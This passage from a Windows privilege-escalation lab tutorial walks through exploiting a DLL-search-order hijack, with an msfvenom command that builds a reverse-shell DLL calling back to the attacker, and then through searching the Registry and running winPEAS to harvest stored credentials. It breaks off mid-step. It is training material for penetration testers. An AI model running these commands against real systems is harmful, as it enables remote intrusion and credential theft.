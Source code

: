     ````
4. Run ``Procmon64.exe`` with administrator privileges. Press 
``Ctrl+L`` to open the Filter menu.
5. Add a new filter on the Process Name matching 
``dllhijackservice.exe``.
6. On the main screen, deselect registry activity and 
network activity.
7. Start the service:
    ````
    net start dllsvc
    ````
8. Back in Procmon, note that a number of “NAME NOT 
FOUND” errors appear, associated with the hijackme.dll file.
9. At some point, Windows tries to find the file in the ``C:\Temp`` 
directory, which as we found earlier, is writable by our user
10. On Kali, generate a reverse shell DLL named hijackme.dll:
    ````
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR-IP LPORT=53 -f dll -o hijackme.dll
    ````
11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a 
listener on Kali and then stop/start the service to trigger the exploit:
    ````
    net stop dllsvc
    net start dllsvc
    ````

AND BIM!

----

## Registry

Plenty of programs store configuration options in the 
Windows Registry.
Windows itself sometimes will store passwords in 
plaintext in the Registry.
It is always worth searching the Registry for passwords

### Searching the Registry for Passwords
The following commands will search the registry for keys and 
values that contain “password”
````
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
````
This usually generates a lot of results, so often it is more 
fruitful to look in known locations

---

**Exercise :**

1. Use winPEAS to check common password locations:
    ````
    .\winPEASany.exe quiet filesinfo userinfo
    ````
    (the final checks will take a long time to complete)
2. The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).
3. We can verify these manually:
    ````
    reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
    ````
4. On Kali, we can use the winexe command to spawn a shell using these 